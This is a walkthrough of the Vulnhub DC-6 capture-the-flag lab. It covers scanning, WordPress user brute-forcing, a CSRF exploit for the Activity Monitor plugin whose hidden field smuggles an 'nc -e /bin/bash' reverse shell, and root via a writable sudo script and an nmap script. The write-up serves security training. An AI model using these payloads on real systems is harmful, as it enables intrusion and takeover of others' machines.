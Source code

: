 ```yaml
---
title:     "Vulnhub - DC 6"
tags: [easy,wordpress,sudo]
---
```


Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description:

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:<https://www.vulnhub.com/entry/dc-6,315/>


Lets Begin with our Initial Scan

## Nmap Scan Results:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/1.png)<br/>
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/3.png)

Now we can bruteforce easily!<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/4.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/5.png)

We got password for mark ``helpdesk01``

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/7.png)


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/8.png)

Found ``graham`` password on mark's directory

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation:

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> <https://gtfobins.github.io/gtfobins/nmap/>

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc6/13.png)

We got the ``Flag`` and Root !!
